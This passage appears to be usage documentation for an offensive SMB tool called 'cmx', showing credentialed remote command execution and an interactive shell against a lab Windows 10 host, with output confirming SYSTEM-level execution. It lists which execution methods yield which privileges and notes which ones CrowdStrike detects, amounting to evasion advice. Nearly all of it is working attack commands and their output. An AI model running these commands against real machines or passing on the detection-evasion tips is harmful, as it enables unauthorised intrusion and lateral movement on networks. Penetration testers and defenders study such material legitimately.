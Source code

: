 ```
# cmx smb 192.168.0.150 -u IEUser -p Passw0rd\! --exec-method atexec -x whoami
Apr.03.20 15:48:52  SMB      192.168.0.150 WIN10TEST [*] Windows 10.0 Build 17763 x64 (domain:WIN10TEST) (signing:False) (SMBv:3.0)
Apr.03.20 15:48:52  SMB      192.168.0.150 WIN10TEST [+] WIN10TEST\IEUser:Passw0rd! (Pwn3d!)
Apr.03.20 15:48:52  SMB      192.168.0.150 WIN10TEST [*] Executed command via atexec
Apr.03.20 15:48:55  SMB      192.168.0.150 WIN10TEST [+] Execution Completed.
Apr.03.20 15:48:55  SMB      192.168.0.150 WIN10TEST [+] Results:
Apr.03.20 15:48:55  SMB      192.168.0.150 WIN10TEST    b'nt authority\\system'
```







------------------------------------------------------------------------
# Getting Shellular

|---------------+-------------+-------------+-------------+------------|
| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| TRUE          | false       | true        | false       | true*      |
|---------------+-------------+-------------+-------------+------------|
{: .tablelines}

smbexec and psexec will get caught by crowdstrike.


Context table:

|---------------+-------------+---------------|
| Method        | Context     | Domain Access |
|---------------|-------------|---------------|
| wmiexec       | USER        | false         |
|---------------|-------------|---------------|
| dcomexec      | USER        | false         |
|---------------|-------------|---------------|
| psexec        | not-working | not-working   |
|---------------|-------------|---------------|
| smbexec       | SYSTEM      | TRUE          |
|---------------|-------------|---------------|
| atexec        | not-working | not-working   |
|---------------+-------------+---------------|
{: .tablelines}


### Command Syntax  
`cmx smb TARGET -u Username -p Pass [--exec-method <method>] -i`

Default exec-method is wmi
```
# cmx smb 192.168.0.150 -u IEUser -p Passw0rd\! -i
Apr.03.20 16:18:14  SMB      192.168.0.150 WIN10TEST [*] Windows 10.0 Build 17763 x64 (domain:WIN10TEST) (signing:False) (SMBv:3.0)
Apr.03.20 16:18:14  SMB      192.168.0.150 WIN10TEST [+] WIN10TEST\IEUser:Passw0rd! (Pwn3d!)
Apr.03.20 16:18:14  SMB      192.168.0.150 WIN10TEST [*] Bout to get shellular
   .... i'm in
 Type help for extra shell commands
C:\>whoami
win10test\ieuser

C:\>hostname
WIN10TEST

C:\>exit
```

